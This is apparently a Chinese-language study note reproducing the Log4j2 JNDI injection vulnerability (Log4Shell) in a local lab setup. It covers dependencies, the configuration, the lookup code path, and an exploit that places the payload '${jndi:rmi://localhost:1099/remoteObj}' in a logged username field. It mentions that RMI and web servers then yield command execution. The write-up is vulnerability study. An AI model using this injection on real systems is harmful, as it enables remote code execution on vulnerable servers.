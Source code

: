 ```yaml
---
title: Java安全-Log4j2
date: 2025-10-3 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


## 环境搭建

- jdk8u65

- Log4j2 2.14.1
- CC 3.2.1 
- pom.xml中添加

```xml
<dependency>  
 <groupId>org.apache.logging.log4j</groupId>  
 <artifactId>log4j-core</artifactId>  
 <version>2.14.1</version>  
</dependency>   
<dependency>  
 <groupId>org.apache.logging.log4j</groupId>  
 <artifactId>log4j-api</artifactId>  
 <version>2.14.1</version>  
</dependency>  
<dependency>  
 <groupId>junit</groupId>  
 <artifactId>junit</artifactId>  
 <version>4.12</version>  
 <scope>test</scope>  
</dependency>
```

## 漏洞复现

log4j2.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>

<configuration status="info">
 <Properties>
 <Property name="pattern1">[%-5p] %d %c - %m%n</Property>
 <Property name="pattern2">
 =========================================%n 日志级别：%p%n 日志时间：%d%n 所属类名：%c%n 所属线程：%t%n 日志信息：%m%n
        </Property>
 <Property name="filePath">logs/myLog.log</Property>
 </Properties>
 <appenders> <Console name="Console" target="SYSTEM_OUT">
 <PatternLayout pattern="${pattern1}"/>
 </Console> <RollingFile name="RollingFile" fileName="${filePath}"
 filePattern="logs/$${date:yyyy-MM}/app-%d{MM-dd-yyyy}-%i.log.gz">
 <PatternLayout pattern="${pattern2}"/>
 <SizeBasedTriggeringPolicy size="5 MB"/>
 </RollingFile>
	</appenders>
	<loggers>
		<root level="info">
 <appender-ref ref="Console"/>
 <appender-ref ref="RollingFile"/>
 </root>
</loggers>
</configuration>
```

正常使用环境，将登录信息打印到日志里

```java
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;  
  
import java.util.function.LongFunction;  
  
public class RealEnv {  
    public static void main(String[] args) {  
        Logger logger = LogManager.getLogger(LongFunction.class);  
  
 String username = "BOB";
 if (username != null) {  
            logger.info("User {} login in!", username);  
 }  
        else {  
            logger.error("User {} not exists", username);  
 }  
    }  
}
```

正常输出结果应该是这样

![image-20251005174134813](./Java%E5%AE%89%E5%85%A8-Log4j2/image-20251005174134813.png)

但是username这个String字符串是可控的，如果替换为`${java:os}`，就会打印系统信息，但这个在官方文档中是自带的功能

![image-20251005174245566](./Java%E5%AE%89%E5%85%A8-Log4j2/image-20251005174245566.png)

经过调试就可以知道最后走到了lookup函数

![image-20251005175415796](./Java%E5%AE%89%E5%85%A8-Log4j2/image-20251005175415796.png)

但是这个函数下的lookup是基于JNDI的，所以可以使用前面降到的JNDI的reference攻击



可以自己断点调试一下，主要就是这些内容

1. 先判断内容中是否有`${}`，然后截取`${}`中的内容，得到我们的恶意payload `jndi:xxx`
2. 后使用`:`分割payload，通过前缀来判断使用何种解析器去`lookup`
3. 支持的前缀包括 `date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j`，后续我们的绕过可能会用到这些。

### exp

```java
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.util.function.LongFunction;

public class RealEnv {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(LongFunction.class);

 String username = "${jndi:rmi://localhost:1099/remoteObj}";
 if (username != null) {
            logger.info("User {} login in!", username);
 }
        else {
            logger.error("User {} not exists", username);
 }
    }
}
```

同时需要`rmiserver`和`webserver`，就可以实现命令执行